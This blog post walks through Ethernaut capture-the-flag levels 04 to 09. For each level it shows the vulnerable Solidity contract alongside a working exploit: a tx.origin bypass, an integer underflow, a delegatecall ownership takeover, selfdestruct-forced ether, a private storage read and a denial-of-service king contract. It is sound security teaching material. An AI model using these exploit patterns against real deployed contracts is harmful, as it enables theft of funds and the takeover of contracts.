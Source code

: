 ################################
Let's play some more Ethernauts!
################################
:slug: lets-play-some-more-ethernauts
:date: 2023-07-14
:summary: from 04-Telephone through 09-king
:tags: programming
:author: capu
:featured_image:

04-Telephone
============

Objective
---------
Become the contract's owner

Code
----

.. code-block:: solidity

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }

Solution
--------
By deploying a contract and calling from it, we can get away from this
restriction.

.. code-block:: solidity

    contract Caller {
        function dial(Telephone telephone) external {
            telephone.changeOwner(msg.sender);
        }
    }


A funny thing though, is that the address Foundry sets as the EOA initiating the
transactions (``0x1804c8AB1F12E6bbf3894d4083f33e07309d1f38``) has assets in a
few networks, even 0.00001 ETH on mainnet. Figuring out how is foundry's test
EOA determined is a rabbit hole for another day

05-Token
========

Objective
---------
Increase your balance from the initial 20.

Code
----

.. code-block:: solidity

    contract Token {
        mapping(address => uint256) balances;
        uint256 public totalSupply;

        constructor(uint256 _initialSupply) {
            balances[msg.sender] = totalSupply = _initialSupply;
        }

        function transfer(address _to, uint256 _value) public returns (bool) {
            // We updated this with unchecked so it behaves as per the original code
            // written to be compiled with solidity ^0.6.0
            // As of ^0.8.0, arithmetic ops will revert on over/underflow
            // On ^0.6.0, it will wrap
            unchecked {
                require(balances[msg.sender] - _value >= 0);
                balances[msg.sender] -= _value;
                balances[_to] += _value;
                return true;
            }
        }

        function balanceOf(address _owner) public view returns (uint256 balance) {
            return balances[_owner];
        }
    }

Solution
--------
Yet another one made obsolete by safety improvements to Solidity itself 🙃 now
it's clear the problem is an overflow in the transfer arithmetic. 

Particularly, the expression inside the require: ``balances[msg.sender] - _value
>= 0`` will always evaluate to ``true``, because the ``-`` operates on two
``uint256`` s, which cannot represent negative values

.. code-block:: solidity

    function solution(Token target) internal virtual {
        target.transfer(address(factory), 21);
    }

So transferring someone else more 1 more tokens than my balance will cause an
overflow and assign ``uint256(20 - 21)`` tokens to me. Which is a pretty big
number.

06-Delegation
=============

Objective
---------
Become the contract owner

Code
----
.. code-block:: solidity

    contract Delegate {
        address public owner;

        constructor(address _owner) {
            owner = _owner;
        }

        function pwn() public {
            owner = msg.sender;
        }
    }

    contract Delegation {
        address public owner;
        Delegate delegate;

        constructor(address _delegateAddress) {
            delegate = Delegate(_delegateAddress);
            owner = msg.sender;
        }

        fallback() external {
            (bool result,) = address(delegate).delegatecall(msg.data);
            if (result) {
                this;
            }
        }
    }

Solution
--------
The ``Delegation`` contract is passed the address of the ``Delegate`` at construction
time, and forwards all calls to it.

This means the code that'll actually be executed when calling anything on the
``Delegation`` contract is the one in ``Delegate``.

Then it's a matter of performing the call. It's not necessary to construct the
call manually, it's enough to cast the ``Delegation`` into a ``Delegate``

.. code-block:: solidity

    function solution(Delegation target) internal virtual {
        Delegate(address(target)).pwn();
    }


07-Force
========

Objective
---------
This challenge is a bit different, the objective being to make the Force
contract have a non-zero balance

Code
----
\...the contract is empty

Solution
--------
An empty contract will revert when called, since it doesn't have a ``receive``
or ``fallback payable`` function, rejecting ether transfers, with or without
calldata.

A workaround against this is the ``selfdestruct`` opcode, which will send ETH to
a contract with no posibility for it to reject it.

.. code-block:: solidity

    contract Emo {
        constructor()payable{} // solhint-disable no-empty-blocks
        function kms(address payable beneficiary) public {
            selfdestruct(beneficiary);
        }
    }

.. code-block:: solidity

    function solution(Force target) internal virtual {
        Emo emo = new Emo{value: 1}();
        emo.kms(payable(address(target)));
    }

08-Vault
========

Objective
---------

Code
----
.. code-block:: solidity

    contract Vault {
        bool public locked;
        bytes32 private password;

        constructor(bytes32 _password) {
            locked = true;
            password = _password;
        }

        function unlock(bytes32 _password) public {
            if (password == _password) {
                locked = false;
            }
        }
    }


Solution
--------

I think this one's gonna be pretty easy if I look into the ``VaultFactory``. The
original intended solution was probably to find the password in the level
creation transaction.

So let's take it as an opportunity to use foundry's api to inspect storage
slots instead.

.. code-block:: solidity

    function solution(Vault target) internal virtual {
        bytes32 password = vm.load(address(target), bytes32(uint256(1)));
        target.unlock(password);
    }

Curiously enough, the `load` cheatcode takes a ``bytes32`` parameter when I
always tought of the slots as being indices, which would normally be ``uint256``

It's worth noting that it's not something exclusive to foundry, and an Ethereum
RPC can answer the query just as well


09-King
=======

Objective
---------
Become the king of this contract, and also don't let anyone else become king
after you.

Code
----
.. code-block:: solidity

    contract King {
        address payable king;
        uint256 public prize;
        address payable public owner;

        constructor() payable {
            owner = payable(msg.sender);
            king = payable(msg.sender);
            prize = msg.value;
        }

        receive() external payable {
            require(msg.value >= prize || msg.sender == owner);
            king.transfer(msg.value);
            king = payable(msg.sender);
            prize = msg.value;
        }

        function _king() public view returns (address payable) {
            return king;
        }
    }


Solution
--------
Let's look into the ``KingFactory`` contract, which determines wether the
challenge is solved or not:

.. code-block:: solidity

    function validateInstance(address payable _instance, address _player) public override returns (bool) {
        _player;
        King instance = King(_instance);
        (bool result,) = address(instance).call{value: 0}("");
        !result;
        return instance._king() != address(this);
    }

The ``KingFactory`` contract, which is the ``King``'s owner, calls the fallback
function, but ignores whether it reverts or succeeds.

The ``King`` contract, however, uses a regular ``transfer``, which reverts when
the callee does.

Then, it's a matter of making a contract without a fallback/receive function
King.

.. code-block:: solidity

    contract GrumpyKing {
        function coronate(address payable where) public payable {
            where.call{value: msg.value}("");
        }
    }

.. code-block:: solidity

    function solution(King target) internal virtual {
        GrumpyKing grumpy = new GrumpyKing();
        grumpy.coronate{value: 0.001 ether}(payable(target));
    }

That was fun. See you next week!
